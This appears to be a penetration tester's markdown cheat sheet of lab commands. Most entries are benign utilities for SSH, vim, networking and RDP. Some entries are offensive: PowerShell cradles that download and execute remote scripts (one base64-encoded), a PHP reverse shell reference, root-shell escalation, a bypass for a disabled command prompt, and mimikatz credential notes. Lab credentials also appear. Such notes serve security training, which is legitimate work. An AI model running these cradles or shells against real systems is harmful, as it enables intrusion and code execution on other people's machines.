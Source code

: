 # Useful Commands

<details>

<summary>Enable Shared Folder on Kali VM</summary>

```bash
sudo vmhgfs-fuse .host:/ /mnt/hgfs/ -o allow_other -o uid=1000
```

</details>

<details>

<summary>Powershell Download Cradle (Download &#x26; Execute)</summary>

```powershell
iex (New-Object Net.Webclient).DownloadString("http://IP/File")
```

</details>

<details>

<summary>SSH Legacy Connect</summary>

```bash
ssh -o KexAlgorithms=diffie-hellman-group14-sha1 -oHostKeyAlgorithms=+ssh-dss -p 22000 j0hn@10.11.1.252
```

</details>

<details>

<summary>Running cmd.exe as admin user</summary>

```bash
powershell.exe Start-Process cmd.exe -Verb runAs
```

OR

* Win-R --> `cmd.exe` --> Ctrl-Shift-Enter

</details>

<details>

<summary>SSH</summary>

### SSH with specified private key

```bash
chmod 400 /home/kali/.ssh/id_rsa
ssh barry@10.11.67.208 -i /home/kali/.ssh/id_rsa
```

### Don't save SSH hostkey into known hosts

```bash
ssh student@192.168.131.52 -p 2222 -o "UserKnownHostsFile=/dev/null"
```

### Starts SSH server

```bash
systemctl start ssh
```

### To troubleshoot SSH configurations

```bash
/usr/sbin/sshd -T
```

### To show SSH config

```bash
vim /etc/ssh/sshd_config
```

</details>

<details>

<summary>Linux Netw Config</summary>

```bash
ifconfig eth1 192.168.200.10 netmask 255.255.255.0
ip route add 192.168.200.0/24 dev eth1
route add default gw 192.168.100.104 eth1
```

</details>

<details>

<summary>Search for exploits</summary>

```bash
searchsploit "Sync Breeze Enterprise 10.0.28"
```

```bash
searchsploit -m 42341
```

</details>

<details>

<summary>Vim</summary>

### Replace all occurrences from first line to last line.

```bash
:0,$s/search_term/replace_term/g
```

It has the syntax `:start_line_number,end_line_number s/<search_term>/<replace_term>/g`

### Match everything until colon (useful for cleaning hashes)

```regex
^[^:]*:
```

### Fix Indentation Error (python script)

```bash
gg=G
```

</details>

<details>

<summary>cURL POST Request</summary>

```bash
curl -X POST --data "code=2+2" http://192.168.120.36:50000/verify
```

</details>

<details>

<summary>Install Perl Packages</summary>

```bash
cpan install Package::Name
```

</details>

<details>

<summary>Copy File Contents To Clipboard</summary>

```bash
xclip -selection c /usr/share/webshells/php/php-reverse-shell.php
```

</details>

<details>

<summary>Terminator Shortcuts</summary>

* Ctrl-Shift-E: Split the view vertically.

- Ctrl-Shift-O: Split the view horizontally.

* Ctrl-Shift-P: Focus on the previous view.

- Ctrl-Shift-N: Focus on the next view.

* Ctrl-D: Close the view where the focus is on.

- Ctrl-Shift-Q: Exit terminator.

</details>

<details>

<summary>Command Prompt Disabled By Administrator</summary>

* Upload [http://didierstevens.com/files/software/cmd-dll\_v0\_0\_4.zip](http://didierstevens.com/files/software/cmd-dll_v0_0_4.zip)
* Run `cmd.exe` locally

</details>

<details>

<summary>Modifying Windows PATH</summary>

```bash
set PATH=C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;%PATH%
```

</details>

<details>

<summary>Remove Windows Directory Recursively</summary>

```bash
rmdir /s /q c:\temp
```

</details>

<details>

<summary>CMD Windows Recursive Directory Listing</summary>

```bash
dir /s /b
```

</details>

<details>

<summary>Error Connecting via xfreerdp</summary>

```bash
xfreerdp /u:user /p:'password' /v:X.X.X.X /d:domain /sec:rdp
# OR, if having a different connect error, also try:
xfreerdp /u:user /p:'password' /v:X.X.X.X /d:domain /sec:tls
# and if you want to have files and clipboard there:
xfreerdp +clipboard /u:user /p:'password' /v:X.X.X.X /d:domain /sec:<whatever> /drive:<absolute path to your local folder>,/
```

</details>

<details>

<summary>Saving Terminal Commands</summary>

```bash
script <filename>
exit
```

</details>

<details>

<summary>Snipping Tool (Ctrl-Win-S) Pic Location</summary>

```bash
C:\Users\%USERNAME%\AppData\Local\Packages\Microsoft.ScreenSketch_8wekyb3d8bbwe\TempState
```

</details>

<details>

<summary>Fixing gcc: error trying to exec ‘cc1’: execvp: No such file or directory</summary>

```bash
carlos@malbec:/home/carlos$ gcc root.c -o libmalbec.so -shared -fPIC -w
gcc: error trying to exec ‘cc1’: execvp: No such file or directory

# PATH variable has not been exported. 
# To fix this, we'll export this variable.
carlos@malbec:/home/carlos$ export
declare -x LS_COLORS=""
declare -x OLDPWD
declare -x PWD="/home/carlos"
declare -x SHLVL="1"
declare -x TERM="xterm"

carlos@malbec:/home/carlos$ export PATH

carlos@malbec:/home/carlos$ export
declare -x LS_COLORS=""
declare -x OLDPWD
declare -x PATH="/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin:."
declare -x PWD="/home/carlos"
declare -x SHLVL="1"
declare -x TERM="xterm"
```

</details>

<details>

<summary>Can't recognize 'whoami' as an internal or external command, or batch script.</summary>

```bash
Z:\home\carlos>whoami
Can't recognize 'whoami' as an internal or external command, or batch script.
# --> use linux x86 payload instead!!!
```

</details>

<details>

<summary>Sudo (ALL) NOPASSWD: ALL to root account</summary>

```bash
sudo bash -i
```

</details>

<details>

<summary>List al the available MSFVenom payloads</summary>

```bash
msfvenom --help-formats
```

</details>

<details>

<summary>scp: Received message too long ||   scp: Ensure the remote shell produces no output for non-interactive sessions.</summary>

Means victim is running legacy SCP server --> req us to use legacy SCP protocol

* `-O` switch

```bash
scp -O -i id_rsa authorized_keys max@192.168.199.100:/home/max/.ssh/authorized_keys
```

</details>

<details>

<summary>B64 Encoding Using Powershell</summary>

```powershell
$text = "(New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/run.txt') | IEX"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($text)
$EncodedText = [Convert]::ToBase64String($bytes)
$EncodedText
```

</details>

<details>

<summary>Print Specified lines</summary>

```bash
# Single line 43
sed -n 43p shellcoderunner.ps1 

# Lines 45-52
sed -n 45,52p shellcode_runner_template.cs
```

</details>

<details>

<summary>Running CMD as Admin CMD</summary>

```powershell
powershell -Command "Start-Process cmd -Verb RunAs"
```

</details>

<details>

<summary>Change Linux Owner</summary>

Change to Kali, from root

```bash
chown -hR kali .
```

</details>

<details>

<summary>John Pot File </summary>

```bash
~/.john/john.pot
```

</details>

<details>

<summary>Difference in TTL for Ping</summary>

```
TTL: 63 --> Linux
TTL: 127 --> Windows
```

</details>

<details>

<summary>NT Auth Vs NT System</summary>

NT Auth --> computer object part of AD --> mimikatz will obtain domain creds

NT System (Local Admin):

* If on Domain Controller --> will obtain domain creds
* If on non-DC --> will only obtain local creds

</details>

<details>

<summary>nxcdb (NetExec Database)</summary>

```bash
nxcdb
workspace create <name>
proto smb
creds
```

```bash
workspace list
```

</details>

<details>

<summary>Fixing KRB_AP_ERR_SKEW(Clock skew too great) error</summary>

```
sudo rdate -n 10.10.11.147
```

</details>

<details>

<summary>Fixing KDC_ERR_WRONG_REALM error</summary>

```bash
# WRONG (USING IP ADDR) FOR KERBEROS AUTH:
nxc smb 10.10.11.168 -u miscsvc -p ScrambledEggs9900 -k --shares

# RIGHT (USING FQDN)
nxc smb dc1.scrm.local -u miscsvc -p ScrambledEggs9900 -k --shares
```

In /etc/hosts (must be like this):

```
10.10.11.168	dc1.scrm.local scrm.local
```

</details>

<details>

<summary>Filter to get only unique entries in a file</summary>

```bash
sort hashes | uniq > uniq_hashes
```

</details>
